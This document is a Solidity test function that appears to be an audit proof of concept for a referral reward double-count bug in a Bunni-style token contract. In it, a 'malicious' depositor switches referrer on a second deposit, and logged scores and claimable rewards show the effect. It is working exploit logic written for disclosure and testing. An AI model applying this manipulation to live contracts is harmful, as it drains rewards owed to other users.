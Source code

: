 ```solidity
    function test_claim_mint_doubleCount() public {
        bool isToken0 = true;
        uint256 amountToDistribute = 1 ether;
        // register depositors and referrers
        address depositor1 = makeAddr("depositor1");
        address referrer1Address = makeAddr("referrer1");
        hub.setReferrerAddress(1, referrer1Address);
        address depositor2 = makeAddr("depositor2");
        address referrer2Address = makeAddr("referrer2");
        hub.setReferrerAddress(2, referrer2Address);
        //
        // 1. `Depositor1` deposits 1 ether. referrer1 gets score
        console.log("Depositor1 deposits token using referrer1");
        _makeDeposit(key, 1 ether, 1 ether, depositor1, 1);
        console.log("ScoreOf referrer1", bunniToken.scoreOf(1));
        //
        // 2. `Depositor2` deposits 1 ether. referrer2 gets score.
        console.log("Depositor2 deposits token using referrer2");
        _makeDeposit(key, 1 ether, 1 ether, depositor2, 2);
        console.log("ScoreOf referrer2", bunniToken.scoreOf(2));
        //
        // 3. Distribute rewards to the `BunniToken`
        console.log("\nOwner distributes 1 ether rewards...");
        Currency token = isToken0 ? currency0 : currency1;
        poolManager.unlock(abi.encode(token, amountToDistribute));
        bunniToken.distributeReferralRewards(isToken0, amountToDistribute);
        //
        (uint256 referrer1Reward0, uint256 referrer1Reward1) = bunniToken.claimReferralRewards(1);
        (uint256 referrer2Reward0, uint256 referrer2Reward1) = bunniToken.getClaimableReferralRewards(2);
        console.log("ScoreOf referrer1", bunniToken.scoreOf(1));
        console.log("ScoreOf referrer2", bunniToken.scoreOf(2));
        console.log("Rewards claimed by referrer1", referrer1Reward0, referrer1Reward1);
        console.log("Rewards claimable by referrer2", referrer2Reward0, referrer2Reward1);
        //
        // 4. Malicious `Depositor1` deposits 0.1 ether again but he changes the referrer1 to referrer2
        console.log("\nMalicious Depositor1 deposits more token using referrer2 (referrer is modified)");
        _makeDeposit(key, 0.1 ether, 0.1 ether, depositor1, 2);
        (referrer1Reward0, referrer1Reward1) = bunniToken.getClaimableReferralRewards(1);
        (referrer2Reward0, referrer2Reward1) = bunniToken.getClaimableReferralRewards(2);
        (uint256 referrer3Reward0, uint256 referrer3Reward1) = bunniToken.getClaimableReferralRewards(3);
        console.log("ScoreOf referrer1", bunniToken.scoreOf(1));
        console.log("ScoreOf referrer2", bunniToken.scoreOf(2));
        console.log("Rewards claimable by referrer1", referrer1Reward0, referrer1Reward1);
        console.log("Rewards claimable by referrer2", referrer2Reward0, referrer2Reward1);
    }
```
